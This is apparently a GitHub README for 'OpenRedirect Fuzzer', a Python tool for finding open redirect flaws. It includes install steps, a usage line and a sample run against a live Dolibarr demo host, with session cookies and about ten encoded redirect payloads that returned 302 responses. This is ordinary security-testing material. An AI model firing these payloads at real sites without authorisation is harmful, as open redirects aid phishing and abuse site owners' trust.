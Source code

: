 # OpenRedirect Fuzzer

OpenRedirect Fuzzer allows you to fuzz an HTTP parameter and detect open redirect vulnerabilities by checking the original domain and the domain after the redirection. The tool shows you various information like the status code, URL after location.

## Installation

```bash
$ git clone https://github.com/xanhacks/openredirect-fuzzer
$ cd openredirect-fuzzer
$ python3 -m pip install -r requirements.txt
```

## Usage

Basic example

```bash
$ python3 fuzzer.py -u 'https://example.com/login?redirect=FUZZ' -w payloads/open-redirect-payload-list.lst --cookies 'session=abcd'
```

Practical example :

```bash
$ python3 fuzzer.py -u 'https://preview2.dolibarr.org/accountancy/admin/card.php?backtopage=FUZZ&cancel=a' -w payloads/
open-redirect-payload-list.lst --cookies 'DOLUSERCOOKIE_boxfilter_task=all; DOLSESSID_e2cecaf5782bec0de940a8a55e2029e7=a6h19pkt4cgsp72nlffo2sq249; DOLSESSTIMEOU
T_e2cecaf5782bec0de940a8a55e2029e7=2000' --proxy 'http://127.0.0.1:8080'
Start fuzzing ...
Try payload : /%09/example.com
=> Error - Invalid schema

Try payload : /%2f%2fexample.com
=> 302 | Location : example.com, new URL : https://preview2.dolibarr.org/accountancy/admin/example.com

Try payload : /%2f%2f%2fbing.com%2f%3fwww.omise.co
=> 302 | Location : bing.com/?www.omise.co, new URL : https://preview2.dolibarr.org/accountancy/admin/bing.com/?www.omise.co

Try payload : /%2f%5c%2f%67%6f%6f%67%6c%65%2e%63%6f%6d/
=> 302 | Location : google.com/, new URL : https://preview2.dolibarr.org/accountancy/admin/google.com/

Try payload : /%5cexample.com
=> 302 | Location : example.com, new URL : https://preview2.dolibarr.org/accountancy/admin/example.com

Try payload : /%68%74%74%70%3a%2f%2f%67%6f%6f%67%6c%65%2e%63%6f%6d
=> 302 | Location : /http//google.com, new URL : https://preview2.dolibarr.org/http//google.com

Try payload : /.example.com
=> 302 | Location : /.example.com, new URL : https://preview2.dolibarr.org/.example.com

Try payload : //%09/example.com
=> 302 | Location : /example.com, new URL : https://preview2.dolibarr.org/example.com

Try payload : //%5cexample.com
=> 302 | Location : example.com, new URL : https://preview2.dolibarr.org/accountancy/admin/example.com

Try payload : ///%09/example.com
=> 302 | Location : /example.com, new URL : https://preview2.dolibarr.org/example.com
[...]
```
